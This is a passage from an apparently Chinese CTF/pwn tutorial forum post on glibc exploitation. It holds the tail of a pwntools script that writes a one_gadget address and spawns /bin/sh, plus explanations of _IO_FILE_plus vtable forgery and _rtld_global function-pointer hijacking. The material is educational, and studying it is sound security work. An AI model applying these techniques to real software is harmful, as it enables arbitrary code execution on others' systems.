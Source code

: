 ```
    p.send(p64(one_gadget)[i])
 
p.sendline("exec /bin/sh 1>&0")
 
p.interactive()

```

(2)_IO_FILE_plus 结构体位于 libc 数据段上可读可写内存处，可以直接修改，但是修改字节数只有 5 个，按照第一种方法：

```
#注释头
 
_IO_FILE_plus._mode <= 0  //该条件自动就会满足
_IO_FILE_plus._IO_write_ptr > _IO_FILE_plus._IO_write_base//该条件需要设置1个字节

```

再利用 1 个字节修改 vtable 的倒数第二个字节，伪造 vtable 指针，然后利用 3 个字节在该内存对应_setbuf 函数偏移处伪造 one_gadget 地址。

(3)_rtld_global 结构体位于 libc 数据段上可读可写内存处，可以直接修改。那么直接修改_dl_rtld_lock_recursive 函数指针指向 one_gadget 就行了。

方法 (2) 和方法 (3) 参考：

[https://blog.csdn.net/Mira_Hu/article/details/103736917](https://blog.csdn.net/Mira_Hu/article/details/103736917)

参考资料：

[https://wiki.x10sec.org/pwn/linux/io_file/fake-vtable-exploit-zh/](https://wiki.x10sec.org/pwn/linux/io_file/fake-vtable-exploit-zh/)

▲常规技术先写到这，下期开始更新堆。  

[第五届安全开发者峰会（SDC 2021）议题征集正式开启！](https://bbs.pediy.com/thread-266645.htm)

最后于 1 小时前 被 PIG-007 编辑 ，原因：